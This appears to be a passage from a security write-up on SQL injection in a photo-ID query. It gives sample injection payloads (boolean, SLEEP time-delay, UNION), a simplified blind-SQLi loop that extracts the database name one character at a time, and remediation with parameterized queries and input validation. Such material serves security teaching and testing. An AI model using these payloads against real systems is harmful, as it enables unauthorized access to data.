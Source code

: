 ### SQL Injection Attack Mechanics

```python
# Vulnerable query structure (conceptual)
query = f"SELECT filename FROM photos WHERE id = {user_input}"

# Malicious input examples:
# user_input = "1 AND 1=1"           # Boolean test
# user_input = "1 AND SLEEP(5)"      # Time delay test  
# user_input = "1 UNION SELECT 'file'" # File reading
```

### Blind SQL Injection Process

```python
# Simplified blind SQLi logic
def blind_sqli_attack(target_url, payload_base):
    for position in range(1, max_length):
        for char_code in range(32, 127):  # Printable ASCII
            payload = f"{payload_base} AND ASCII(SUBSTRING(database(),{position},1))={char_code}"
            
            response = send_request(target_url + payload)
            
            if is_true_response(response):
                extracted_data += chr(char_code)
                break
    
    return extracted_data
```

### Error Analysis
**HTTP 405 Error**: Method not allowed - indicates POST requests rejected
**Error 500**: Internal server error - potentially indicates SQL syntax errors
**Response Timing**: Variations indicate successful time-based injection

---

## 🛡️ Security Recommendations

### Immediate Fixes

1. **Parameterized Queries**
```python
# Vulnerable code
query = f"SELECT filename FROM photos WHERE id = {user_input}"

# Secure approach
cursor.execute("SELECT filename FROM photos WHERE id = %s", (user_input,))
```

2. **Input Validation**
```python
# Validate input type and range
def validate_photo_id(user_input):
    try:
        photo_id = int(user_input)
        if 1 <= photo_id <= 1000:  # Valid range
            return photo_id
    except ValueError:
        pass
    raise ValueError("Invalid photo ID")
```
